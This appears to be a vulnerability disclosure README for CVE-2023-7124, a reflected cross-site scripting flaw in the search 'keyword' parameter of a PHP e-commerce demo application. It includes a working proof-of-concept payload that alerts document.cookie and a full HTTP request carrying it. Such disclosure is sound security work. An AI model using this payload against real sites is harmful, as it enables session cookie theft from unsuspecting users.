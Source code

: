 # CVE-2023-7124_E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7124_E-commerce_Site-Reflected_Cross_Site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-site-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2019/10/E-COMMERCE_SITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7124

## References: 
+ **CVE-2023-7124:** https://vuldb.com/?id.249096
+ https://www.cve.org/CVERecord?id=CVE-2023-7124

## Description:
E-commerce Site 1.0 allows Reflected Cross-site Scripting via parameter 'keyword' in "/ecommerce/search.php". E-commerce Site is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Search for Product: "http://localhost/ecommerce/search.php"
+ Use this payload: `<video/src=x onerror=alert(document.cookie)>`
+ Fill the payload and Enter.
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'keyword' parameter:
```
POST /ecommerce/search.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 55
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ml92pvb86qoqm8rjs4vhgk86v7
Referer: http://localhost/ecommerce/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

keyword=%3Cvideo/src=x%20onerror=alert(document.cookie)%3E%20
```

+ Example payload:
```
<video/src=x onerror=alert(document.cookie)>
```
![1-1](https://github.com/h4md153v63n/CVEs/assets/5091265/85674d4d-34f4-4dc3-95b4-b010401dd04e)
<br>
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/5225831f-4eef-41df-bd4e-c9e41901dce0)
